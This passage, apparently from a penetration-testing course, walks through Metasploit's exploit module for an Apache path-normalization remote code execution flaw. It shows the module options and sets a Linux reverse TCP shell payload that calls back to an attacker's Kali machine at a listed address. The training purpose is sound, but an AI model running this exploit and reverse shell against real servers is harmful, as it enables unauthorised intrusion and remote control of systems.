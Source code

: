 ```
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /cgi-bin         yes       Base path
   VHOST                       no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

...
```

> Listing 27 - Display the options of the exploit module

The options shown in Listing 27 are like the options available for the auxiliary modules from the previous section. However, for exploit modules, there is an additional option section named *Payload options*. If we don't set this, the module will select a default payload. The default payload may not be what we want or expect, so it's always better to set our options explicitly to maintain tight control of the exploitation process.

We'll cover different payloads in the next Learning Unit, but for now we set it to a regular TCP reverse shell. We can select a payload with **set payload** and the payload name, in our case *payload/linux/x64/shell\_reverse\_tcp*. In addition, we enter the IP address of our Kali machine for **LHOST**.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > show options
...

Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

...
```

> Listing 28 - Set payload of the exploit module

The output shows that the entered payload is now active for the exploit module. There are two options for this payload named *LHOST* (the local host IP address or interface) and *LPORT* (the local port), which are used for the reverse shell to connect to.

By default, most exploit modules use the port 4444 in the *LPORT* payload option. Depending on our machine's configuration, Metasploit may already set the *LHOST* value for us. We should always double-check this value, especially if our machine contains multiple interfaces, because Metasploit may reference the wrong interface to set this value.
